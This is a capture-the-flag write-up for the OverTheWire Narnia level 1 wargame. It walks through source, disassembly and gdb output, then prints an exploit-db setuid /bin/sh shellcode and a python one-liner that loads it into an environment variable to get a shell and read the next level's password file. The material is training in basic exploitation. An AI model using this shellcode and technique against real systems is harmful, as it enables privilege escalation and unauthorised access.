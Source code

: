 #Narnia1

narnia.labs.overthewire.org

**Username:** narnia1
**Password:** see narnia0
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Again, let's go ahead and run the program and see what it does.
>
>```
# ./narnia1  
Give me something to execute at the env-variable EGG  
>```
> Ok, it looks like we are going to be messing with environment variables.
>
> Let's go ahead and take a peek at the source:
>
>```C
>/*
>    This program is free software; you can redistribute it and/or modify
>    it under the terms of the GNU General Public License as published by
>    the Free Software Foundation; either version 2 of the License, or
>    (at your option) any later version.
>
>    This program is distributed in the hope that it will be useful,
>    but WITHOUT ANY WARRANTY; without even the implied warranty of
>    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
>    GNU General Public License for more details.
>
>    You should have received a copy of the GNU General Public License
>    along with this program; if not, write to the Free Software
>    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
>*/
>#include <stdio.h>
>
>int main(){
>	int (*ret)();
>
>	if(getenv("EGG")==NULL){    
>		printf("Give me something to execute at the env-variable EGG\n");
>		exit(1);
>	}
>
>	printf("Trying to execute EGG!\n");
>	ret = getenv("EGG");
>	ret();
>
>	return 0;
>}
>```
>
> This one looks straight forward, but at the same time, I don't quite know how ```getenv("EGG");``` is going to work.  What it looks like to someone who isn't the best ```C``` programmer is that we are going to read in the value of environment variable ```EGG``` and execute whatever is in there.  Let's try a basic command and see what it does.
>
>```
># export EGG=ls
># echo $EGG
>ls
># ./narnia1 
>Trying to execute EGG!
>Segmentation fault
>```
>
> Ok, clearly there is more going on here.  Let's bust out our dissassembler and see what's going on at the ```getenv("EGG");``` line.
>
>```asm
>             main:
>0804847d         push       ebp                                                 ; XREF=_start+23
>0804847e         mov        ebp, esp
>08048480         and        esp, 0xfffffff0
>08048483         sub        esp, 0x20
>08048486         mov        dword [ss:esp], 0x8048570                           ; argument "name" for method j_getenv
>0804848d         call       j_getenv
>08048492         test       eax, eax
>08048494         jne        0x80484ae
>
>08048496         mov        dword [ss:esp], 0x8048574                           ; "Give me something to execute at the env-variable EGG", argument "s" for method j_puts
>0804849d         call       j_puts
>080484a2         mov        dword [ss:esp], 0x1                                 ; argument "status" for method j_exit
>080484a9         call       j_exit
>
>080484ae         mov        dword [ss:esp], 0x80485a9                           ; "Trying to execute EGG!", argument "s" for method j_puts, XREF=main+23
>080484b5         call       j_puts
>080484ba         mov        dword [ss:esp], 0x8048570                           ; argument "name" for method j_getenv
>080484c1         call       j_getenv
>080484c6         mov        dword [ss:esp+0x1c], eax
>080484ca         mov        eax, dword [ss:esp+0x1c]
>080484ce         call       eax
>080484d0         mov        eax, 0x0
>080484d5         leave      
>080484d6         ret
>```
>
> Well, we can see the call to ```j_getenv``` at ```0x080484c1``` and there appears to be call directly after that at ```0x080484ce```.  Let's setup gdb and break at that point.
>
>```asm
># gdb narnia1
>(gdb) display/a $eax
>(gdb) break *0x080484ce
>Breakpoint 1 at 0x80484ce
>(gdb) run
>Starting program: /root/narnia1 
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>Trying to execute EGG!
>
>Breakpoint 1, 0x080484ce in main ()
>1: /a $eax = 0xffffd806
>(gdb) x/100x $eax
>0xffffd806:	0x5500736c	0x3d524553	0x746f6f72	0x5f534c00
>0xffffd816:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
>0xffffd826:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
>0xffffd836:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a
>0xffffd846:	0x333b3130	0x6f643a35	0x3b31303d	0x623a3533
>0xffffd856:	0x30343d64	0x3b33333b	0x633a3130	0x30343d64
>0xffffd866:	0x3b33333b	0x6f3a3130	0x30343d72	0x3b31333b
>0xffffd876:	0x733a3130	0x37333d75	0x3a31343b	0x333d6773
>0xffffd886:	0x33343b30	0x3d61633a	0x343b3033	0x77743a31
>0xffffd896:	0x3b30333d	0x6f3a3234	0x34333d77	0x3a32343b
>0xffffd8a6:	0x333d7473	0x34343b37	0x3d78653a	0x333b3130
>0xffffd8b6:	0x2e2a3a32	0x3d726174	0x333b3130	0x2e2a3a31
>0xffffd8c6:	0x3d7a6774	0x333b3130	0x2e2a3a31	0x3d6a7261
>0xffffd8d6:	0x333b3130	0x2e2a3a31	0x3d7a6174	0x333b3130
>0xffffd8e6:	0x2e2a3a31	0x3d687a6c	0x333b3130	0x2e2a3a31
>0xffffd8f6:	0x616d7a6c	0x3b31303d	0x2a3a3133	0x7a6c742e
>0xffffd906:	0x3b31303d	0x2a3a3133	0x7a78742e	0x3b31303d
>0xffffd916:	0x2a3a3133	0x70697a2e	0x3b31303d	0x2a3a3133
>0xffffd926:	0x303d7a2e	0x31333b31	0x5a2e2a3a	0x3b31303d
>0xffffd936:	0x2a3a3133	0x3d7a642e	0x333b3130	0x2e2a3a31
>0xffffd946:	0x303d7a67	0x31333b31	0x6c2e2a3a	0x31303d7a
>0xffffd956:	0x3a31333b	0x7a782e2a	0x3b31303d	0x2a3a3133
>0xffffd966:	0x327a622e	0x3b31303d	0x2a3a3133	0x3d7a622e
>0xffffd976:	0x333b3130	0x2e2a3a31	0x3d7a6274	0x333b3130
>0xffffd986:	0x2e2a3a31	0x327a6274	0x3b31303d	0x2a3a3133
>```
>
> Ah, so it looks like our ```ls``` is at ```0xffffd808``` and ```ffffd809```.  At those two addresses we see the values ```0x73``` and ```0x6c``` respectively which translate back to ```s``` and ```l```.  So it looks like if we load valid shellcode into the ```EGG``` environment variable it should be executed as the ```call``` will basically be pointed to the shellcode itself. I'll just use some shellcode that I got out of exploit-db.
>
>```
># cat /usr/share/exploitdb/platforms/lin_x86/shellcode/13333.txt
>-------------------[ASM]----------------------
>
>global _start
>section .text
>_start:
>;setuid(0)
>xor ebx,ebx
>lea eax,[ebx+17h]
>cdq
>int 80h
>;execve("/bin/sh",0,0)
>xor ecx,ecx
>push ecx
>push 0x68732f6e
>push 0x69622f2f
>lea eax,[ecx+0Bh]
>mov ebx,esp
>int 80h
>
>-------------------[/ASM]----------------------
>
>-------------------[C]----------------------
>
>#include <stdio.h>
>
>const char shellcode[]= "\x31\xdb"
>            "\x8d\x43\x17"
>            "\x99"
>            "\xcd\x80"
>            "\x31\xc9"
>            "\x51"
>            "\x68\x6e\x2f\x73\x68"
>            "\x68\x2f\x2f\x62\x69"
>            "\x8d\x41\x0b"
>            "\x89\xe3"
>            "\xcd\x80";
>
>int main()
>{
>    printf <http://www.opengroup.org/onlinepubs/009695399/functions/printf.html>("\nSMALLEST SETUID & EXECVE GNU/LINUX x86 STABLE SHELLCODE"
>            "WITHOUT NULLS THAT SPAWNS A SHELL"
>            "\n\nCoded by Chema Garcia (aka sch3m4)"
>            "\n\t + sch3m4@opensec.es"
>            "\n\t + http://opensec.es"
>            "\n\n[+] Date: 29/11/2008"
>            "\n[+] Thanks to: vlan7"
>            "\n\n[+] Shellcode Size: %d bytes\n\n",
>            sizeof(shellcode)-1);
>
>    (*(void (*)()) shellcode)();
>
>    return 0;
>}
>
>-------------------[C]---------------------- 
>
># milw0rm.com [2008-11-13]
>```
>
> Now for the delivery.  We can't just type out the shellcode into the environment variable, so like narnia0 we'll turn to python.  To do this we will just nest the command so that it will execute and print the appropriate values into the environment variable.
>
>```
># export EGG=$(python -c 'print "\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
># echo $EGG
>1ۍC�̀1�Qhn/shh//bi�A
>                    ��̀
>```
>
> That looks about right, let's move to the server and run it.
>
>```
>narnia1@melinda:/narnia$ export EGG=$(python -c 'print "\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
>narnia1@melinda:/narnia$ ./narnia1
>Trying to execute EGG!
>$ whoami
>narnia2
>$ cat /etc/narnia_pass/narnia2
>**********
>$ 
>```
>
> On to narnia2.
